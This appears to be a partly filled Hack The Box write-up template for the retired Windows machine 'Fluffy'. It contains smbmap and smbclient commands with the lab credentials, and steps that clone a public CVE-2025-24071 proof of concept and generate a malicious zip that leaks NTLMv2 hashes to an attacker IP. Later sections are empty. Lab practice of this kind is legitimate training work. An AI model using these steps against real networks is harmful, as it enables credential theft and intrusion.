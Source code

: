 ```yaml
---
file_created: 12 Sep 2025 01:14
title: Fluffy
difficulty: Easy
difficult_sort: 1
points: 0
os: Windows
target_ip: 10.10.11.69
platform: Hack The Box
category: B2R
box_status: Retired
url: https://app.hackthebox.com/machines/Fluffy
user_flag:
root_flag:
completed:
date_finish:
tags:
  - htb/machines
---
```

# Resolution summary
![400x200](<./attachments/Fluffy.png>)

>[!summary]
>- Starting with credentials for the following account:
>j.fleischman : J0elTHEM4n1990!

## Tutorial
 - [HTB-Writeup-Fluffy](<./attachments/Fluffy.pdf>)
```cardlink
url: https://infosecwriteups.com/fluffy-hack-the-box-walkthrough-e0431cfa4ece
title: "Fluffy Hack The Box Walkthrough | Windows AD Exploitation & ESC16 Privilege Escalation"
description: "Step-by-step guide to exploiting Windows AD, capturing NTLM hashes, and escalating to administrator on Hack The Box Fluffy."
host: infosecwriteups.com
favicon: https://miro.medium.com/v2/resize:fill:256:256/1*A6LVtmXcJ3QJy_sdCyFx1Q.png
image: https://miro.medium.com/v2/resize:fit:691/1*PG0jfztbM9q6F3yBgTDQYg.png
```

## Improved skills
- Skill 1
- Skill 2

## Used tools
- nmap; gobuster
---
# Environment Setup
```bash
export HOST_IP=
export TARGET_
export DOMAIN=
{
  echo "HOST_IP=${HOST_IP:-}"
  echo "TARGET_IP=${TARGET_IP:-}"
  echo "DOMAIN=${DOMAIN:-}"
} > .env
source .env
```
---
# Information Gathering

Scanned all TCP ports:

```bash

```

Enumerated open TCP ports:

```bash

```

Enumerated top 200 UDP ports:

```bash

```

---

# Enumeration

## Port 80 - HTTP (Apache)

## Port 445 - smb
### SMB Access & File Discovery
With valid credentials in hand, the next step is to enumerate accessible SMB shares. Using **smbmap**, we authenticate as `j.fleischman` with the given password.

```bash
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```
![](<./attachments/Fluffy-1.png>)
The **IT share** looks interesting since we have **both read and write permissions**, which is often a useful foothold in AD environments.
### Connecting to the IT Share

We connect to the share with **smbclient**:
```bash 
smbclient //10.10.11.69/IT -U j.fleischman
#  J0elTHEM4n1990!
```
Once inside, we list the available files:
![](<./attachments/Fluffy-2.png>)
Here, we notice two installer packages (`Everything` and `KeePass`) and a PDF document named **Upgrade_Notice.pdf**. PDFs in AD environments often contain upgrade guides, IT memos, or even sensitive operational details making it worth inspecting.

### Downloading the PDF
Grab the file locally:
```bash
get Upgrade_Notice.pdf
```

---
# Exploitation 
## CVE-2025–24071
After reviewing `Upgrade_Notice.pdf`, I noticed references to **recent CVEs affecting file handling in Windows**, particularly **CVE-2025-24071**, which allows **NTLMv2 hash leakage via RAR/ZIP extraction and** `**.library-ms**` **files**.

Since the IT share was **writable**, it became an ideal place to upload **malicious files** to exploit this vulnerability. I decided to use a public proof-of-concept by 0x6rss to generate the payload.

First, I cloned the repository and navigated to the PoC directory:
```bash
git clone https://github.com/0x6rss/CVE-2025-24071_PoC  
cd CVE-2025-24071_PoC/
```
The repository includes a Python script (`poc.py`) to generate a malicious `.zip` file:
```bash
python3 poc.py  
# Enter your file name: TESTER 
# Enter IP (EX: 192.168.1.162): 10.10.14.85
```
---
# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---
# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---
# Trophies

## User Flag
```txt

```
## Root Flag
```txt
```
## **/etc/shadow**

```bash

```

---
# Proof